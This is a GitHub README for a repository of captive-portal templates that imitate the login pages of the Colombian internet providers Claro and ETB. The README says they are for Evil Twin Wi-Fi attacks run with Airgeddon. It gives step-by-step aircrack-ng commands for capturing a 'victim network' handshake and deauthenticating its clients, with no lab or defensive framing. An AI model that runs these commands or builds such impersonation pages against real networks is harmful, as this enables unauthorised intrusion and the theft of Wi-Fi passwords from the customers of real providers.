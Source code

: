 # Airgeddon-Custom-Captive-Portal-Templates
Github repo from YouTube tutorial about customizing Airgeddon's Captive Portal template.

YouTube Video: https://youtu.be/M0TMHRuA2To

It's recommended to previously have captured the handshake as Airgeddon only gives 100 seconds tops to do this. Also, to take note of the MAC address of the network to update it in the check.htm file.

1. airmon-ng start wlan0 (Enable monitor mode)
2. airodump-ng wlan0mon (Listen to all networks. Jot down the BSSID and channel the network is in)
3. airodump-ng --bssid [MAC] --channel 1 -w wpa_log wlan0mon (Listen only to the victim network, capturing the handshake)

* It may be necessary to de-authenticate the clients for them to connect again and grab the handshake.
aireplay-ng --deauth 20 -a [MAC] wlan0mon
If -c [client] is specified, only that mac's user device will be de-authenticated.

#################################################################################################################################################################################################################################

ENG:  This is not mine, I actually edited the templates of this video: (https://youtu.be/M0TMHRuA2To) all credit goes to him.
      This repository is an edition of the HTML and CSS code to be similar to that of some Colombian Internet providers,
      when trying to make an Evil Twin attack with a captivating portal through Airgeddon.
      I hope to add more templates to the list over time.

ESP:  Esto no es mío, Realmente edite las plantillas de este video: (https://youtu.be/M0TMHRuA2To) todo el crédito es para él.
      Este repositorio es una edicion del código HTML y CSS para que sea similar al de algunos proveedores de Internet colombianos,
      cuando se esta intentando hacer un ataque de Evil Twin con portal captativo por medio de Airgeddon.
      Espero agregar más plantillas a la lista con el tiempo.

##################################################################################################################################################################################################################################

List \\ Lista:
-claro
-ETB
